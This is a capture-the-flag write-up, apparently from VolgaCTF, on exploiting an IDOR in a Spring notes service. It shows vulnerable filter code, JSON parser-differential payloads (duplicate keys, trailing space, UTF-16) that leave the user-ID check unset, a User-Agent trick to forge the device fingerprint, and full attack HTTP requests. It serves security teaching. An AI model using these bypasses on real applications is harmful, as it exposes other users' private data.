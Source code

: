Yet Another Notes Task
===
To get the flag, you need to exploit the IDOR vulnerability through the `userID` parameter.

```java
    @PostMapping(value = "/notes", produces = MediaType.APPLICATION_JSON_VALUE)
    public @ResponseBody NotesResponse notes(@RequestBody BaseRequest request) {
        NotesResponse response = new NotesResponse();
        User user = userDao.getUser(request.getUserID());
        if(user == null) {
            response.setResult("error");
            response.setError("Something wrong");
        } else {
            response.setResult("ok");
            response.setNotes(user.getNotes());
        }
        return response;
    }
```

To do this, you need to bypass the additional user ID matching check in the session and request parameters in the HttpFilter.

```java
    protected void doFilter(HttpServletRequest servletRequest, HttpServletResponse response, FilterChain filterChain) throws ServletException, IOException {
        MultiReadHttpServletRequest request = new MultiReadHttpServletRequest(servletRequest);
        RequestAttributes requestAttributes = RequestContextHolder.getRequestAttributes();
        Integer sessionUserID = (Integer)(requestAttributes.getAttribute("user_id", RequestAttributes.SCOPE_SESSION));
        Integer requestUserID = null;
        
        if (HttpMethod.POST.matches(request.getMethod())) {
            try {
                String body = request.getReader().lines().collect(Collectors.joining(System.lineSeparator()));
                JSONObject jsonObject = new JSONObject(body);
                requestUserID = jsonObject.getInt("userID");
            } catch (Exception e) {}
        }
        [...]
        if((sessionUserID != null) && ((requestUserID == null) || sessionUserID.equals(requestUserID))) {
            [...]
        } else {
            response.sendError(HttpServletResponse.SC_FORBIDDEN, "Unauthorized");
        }
    }
```

Thus, it is necessary to throw an Exception in the processing of the HTTP request body through the `org.json` library so that the `requestUserID` variable remains uninitialized. But the standard Spring HTTP request parser should return the correct value.

This can be done in several ways:
* Duplicate parameters with the same keys `{"userID":"1","x":"x","x":"x"}`
* Space after number `{"userID":"1 "}`
* Wrap HTTP request body in UTF-16 encoding

Additionally, you need to bypass the device fingerprint check.
```java
    String deviceFingerprint = Utils.getMd5(requestUserID, request.getHeader("User-Agent"), request.getRemoteAddr());
    if(sessionDao.isValidSession(deviceFingerprint, requestAttributes.getSessionId())) {
        filterChain.doFilter(request, response);
    } else {
        response.sendError(HttpServletResponse.SC_FORBIDDEN, "Unauthorized");
    }
    [...]   
    public static String getMd5(Object... args) {
        try {
            MessageDigest md = MessageDigest.getInstance("MD5");
            for (Object arg : args) {
                if(arg != null)
                    md.update(String.valueOf(arg).getBytes());
            }
            byte[] digest = md.digest();
            String hash = DatatypeConverter.printHexBinary(digest).toLowerCase();
            return hash;
        } catch (NoSuchAlgorithmException ex) {
            return null;
        }
    }
```

Since the value of requestUserID is null, you must add the user ID to the beginning of the User-Agent header line.
```http
POST /signup HTTP/1.1
Host: yant.volgactf-task.ru
User-Agent: XXX
Content-Type: application/json
Content-Length: 47

{"username":"blahblah","password":"blahblah"}
```

```http
POST /notes HTTP/1.1
Host: yant.volgactf-task.ru
Cookie: JSESSIONID=<attacker-session-id>;
User-Agent: <attacker-user-id>XXX
Content-Type: application/json
Content-Length: 30

{"userID":"1","x":"x","x":"x"}
```
